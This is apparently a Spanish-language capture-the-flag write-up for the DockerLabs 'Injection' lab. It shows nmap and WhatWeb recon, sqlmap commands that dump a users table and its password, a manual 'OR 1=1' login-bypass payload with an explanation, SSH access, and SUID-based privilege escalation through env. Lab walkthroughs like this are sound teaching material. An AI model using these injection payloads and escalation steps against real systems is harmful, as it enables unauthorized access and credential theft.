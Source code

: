 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
Nombre: Injection
Dificultad: muy fácil

Herramientas:
[[Ping]]
[[NMAP]]
[[WhatWeb]]
[[SQLMAP]]
[[Puerto 22 SSH - SFTP (TCP)]]



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```

![[DockerLabs - Injection - Deploy.png]]

Ping para comprobar conectividad y ver el ttl: 64
![[DockerLabs - Injection - Ping.png]]

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![[DockerLabs - Injection - Nmap.png]]

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![[DockerLabs - Injection - Web.png]]

WhatWeb no nos da mucha información

![[DockerLabs - Injection - Whatweb.png]]

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![[DockerLabs - Injection - SQL Injection manual.png]]

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![[DockerLabs - Injection - Codigo consulta sin validar.png]]


Acceso con usuario dylan:
![[DockerLabs - Injection - User access.png]]

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:
![[DockerLabs - Injection - SSH dylan user.png]]


## Escalada de privilegios
sudo -l
![[DockerLabs - Injection - sudo-l.png]]

find / -perm -4000 2>/dev/null

![[DockerLabs - Injection - Suid.png]]

Buscamos en Gtfobins algunos de estos suid
![[DockerLabs - Injection - gtfobbins env.png]]
Encuentro env:
lo ejecutamos con las rutas absolutas


![[DockerLabs - Injection - Escalada de privilegiso.png]]

DockerLabs - Injection -